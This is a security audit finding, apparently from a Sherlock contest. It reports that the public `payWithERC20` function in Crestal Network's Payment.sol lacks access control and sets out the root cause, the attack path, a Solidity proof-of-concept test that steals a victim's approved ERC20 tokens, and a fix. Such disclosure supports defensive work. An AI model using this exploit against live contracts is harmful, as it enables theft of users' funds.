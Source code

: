Refined Ash Crane

High

# Attacker may steal ERC20 tokens from agent creator

### Summary

Lack of access control in the `payWithERC20` function allows an attacker to directly call `payWithERC20` and steal users' approved ERC20 tokens.

### Root Cause

In [Payment.sol:25](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) the `payWithERC20` function is public and lacks access control, allowing anyone to transfer tokens from any address that has approved the contract

### Internal Pre-conditions

User needs to approve tokens to the `Blueprint` contract

### External Pre-conditions

None

### Attack Path

1. Victim approves tokens to `Blueprint` contract for creating agents
2. Attacker calls `payWithERC20` with:
   - `fromAddress` = victim's address
   - `toAddress` = attacker's address
   - `amount`= approved amount
3. Attacker receives all approved tokens before victim can create agent

### Impact

The victim suffers loss of all approved tokens. The attacker gains the full approved token amount

### PoC

```solidity
    function test_Poc_stealErc20() public {
        address victim = makeAddr("victim");
        address attacker = makeAddr("attacker");

        uint256 validTokenAmount = 100 * 10 ** 18;

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        // Mint tokens to the victim account
        mockToken.mint(victim, validTokenAmount);
        
        vm.prank(victim);
        // Approve the blueprint contract to spend tokens directly from the victim account
        mockToken.approve(address(blueprint), validTokenAmount);

        vm.prank(attacker);
        // Steal all approved funds before call createAgentWithToken function
        blueprint.payWithERC20(address(mockToken), validTokenAmount, victim, attacker);

        assertEq(mockToken.balanceOf(attacker), validTokenAmount);
    }
```

### Mitigation

Add access control to payWithERC20 to only allow internal calls